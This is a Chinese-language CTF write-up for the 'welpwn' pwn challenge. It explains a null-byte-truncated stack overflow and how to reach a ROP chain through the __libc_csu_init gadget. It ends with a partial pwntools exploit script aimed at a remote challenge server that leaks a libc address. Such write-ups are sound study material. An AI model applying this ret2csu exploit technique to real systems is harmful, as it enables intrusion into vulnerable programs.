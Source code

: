 ## 总结

puts()函数：

```c 
int puts(const char *str);
```

puts()从string的开头往stdout中输出字符，直到遇见结束标志 '\0'，'\0'不会被输出到stdout。

ljust()，向字符串右侧填充指定内容，即高地址填充。rjust()，向字符串左侧填充指定内容，即低地址填充。

注意程序的输出，保证接收的数据正确。

加深对小端序储存的理解。

# 攻防世界-welpwn

## 分析

main函数读取了0x400字节的数据。在echo函数中将我们的输入的数据写入s2，但是遇到0就直接停止。但对于十六进制的地址没有“\x00”是不可能的。因为是小端序，从低地址开始写入数据，，我们还是可控制返回地址的。不过返回地址后的数据会被直接截断，这样我们就不能完成一次完整的攻击。

我们来分析一下栈的布局，寻找绕过的方法。

我们的payload在s2被截断，但是在buf处写入的数据没有被截断。我们要想办法使程序执行在buf的ROP链。

假设我们的payload=‘a’*24+p64(fake_ret)+p64(var_1)，那么栈的结构是这样的：

| aaaaaaaa | aaaaaaaa | aaaaaaaa | fake_ret | aaaaaaa | aaaaaaaa | aaaaaaaa | fake_ret | gadget |
| :------: | :------: | :------: | :------: | :-----: | :------: | :------: | :------: | ------ |
|    s2    |          |   rbp    |   ret    |   buf   |          |          |          |        |

要想执行到buf部分的shell处，需要跳过‘a’*24，还有已经执行过的fake_ret。而进行这个操作的要是fake_ret指向的程序处的一系列指令。

这样四个pop指令就可以让我们的rsp跳过前面四个内存单元指向var_1处。那么去那里找这样的四个连续pop呢？

在64位程序有万能gadget，__libc_csu_init，通过这个可控制绝大部分寄存器。
## exp

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

p=remote('220.249.52.133',38032)
elf = ELF('./welpwn')

main=0x00000000004007CD
libc_csu_pop=0x000000000040089A
libc_csu_mov=0x0000000000400880
pop_rdi=0x00000000004008a3
pop_4=0x000000000040089c
write_plt=elf.plt['write']
write_got=elf.got['write']

def csu(rbx,rbp,r12,r13,r14,r15,last):
	payload ='a'*16+'b'*8
	payload+=p64(pop_4)+p64(libc_csu_pop)
	payload+=p64(rbx)+p64(rbp)+p64(r12)+p64(r13)+p64(r14)+p64(r15)
	payload+=p64(libc_csu_mov)+'a'*56+p64(last)  #这里的‘a’*56是为了跳过pop和add
	p.send(payload)

p.recvuntil('RCTF\n')
csu(0,1,write_got,8,write_got,1,main)
```